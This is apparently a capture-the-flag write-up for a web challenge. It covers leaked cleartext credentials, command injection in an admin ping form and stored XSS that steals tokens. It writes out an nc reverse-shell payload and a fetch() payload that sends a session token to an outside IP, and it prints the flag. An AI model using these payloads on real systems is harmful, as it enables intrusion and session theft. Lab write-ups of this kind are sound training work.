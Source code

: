 # Visiting the site

Visiting the site has an option to login or register.

![](screenshots/1.png)

![](screenshots/2.png)

# Login

Checking the traffic reveals the `/requestUsers` endpoint . It has cleartext credentials for all of the users.

![](screenshots/3.png)

![](screenshots/4.png)

# Admin

There is a simple form that can be used to ping hosts, only available to admins.

![](screenshots/5.png)

Giving out some errors on malformed input or error.

```json
{"error": "No valid IP address found"}
{"error": "Command execution failed: exit status 1"}
```

# Command injection

It is vulnerable to command injection with backticks for example. The input should contain a valid ip address.

Now there are 2 pings.

```
127.0.0.1 -c `echo 2`
```

![](screenshots/6.png)

There is `nc` on the server, opening a reverse shell is trivial.

```bash
`nc 10.8.0.59 8000 -e /bin/sh` 127.0.0.1 
```

![](screenshots/7.png)

# Flag
`hcsc25{H3y_BoRrow1ng_1s_n0t_Ste4l1ng}`

# XSS

This was probably the intended solution.

After registering and logging in as regular user, the complaints are vulnerable to XSS as well. The login token is stored inside local storage, and can be stolen.

```html
<img src=x onerror="fetch('http://10.8.0.59:8000?token='+localStorage.token)">
```

There were some bots on the discord server, named Xavier. As stated in the challenge description, sending any link (from the webapp) to the bot would be opened. After a few messages figuring out the syntax, the specific complaint with the XSS is visited.

![](screenshots/8.png)

And the token is stolen, which can be used to access the admin page.

![](screenshots/9.png)

# Binaries

The server files were taken from the challenge after code execution. They are in [app.tar.gz](src/app.tar.gz).